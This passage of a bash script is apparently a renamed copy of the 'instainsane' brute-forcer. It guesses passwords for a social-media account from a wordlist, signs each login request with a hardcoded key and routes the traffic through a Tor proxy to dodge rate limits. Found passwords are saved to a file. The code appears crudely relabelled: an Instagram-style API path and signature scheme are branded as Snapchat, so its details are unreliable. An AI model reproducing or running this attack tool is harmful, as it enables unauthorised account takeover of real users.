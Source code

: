 let startline+=20
let endline+=20

done

}


bf5resume() {

while [ $counter5 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do

header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

let counter5++

printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9055 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; wait $pid1 > /dev/null 2>&1; wait $pid2 > /dev/null 2>&1 ; wait $pid3 > /dev/null 2>&1 ; wait $pid4 > /dev/null 2>&1; wait $! > /dev/null 2>&1 ;

let startline+=20
let endline+=20

done
}


function resume() {
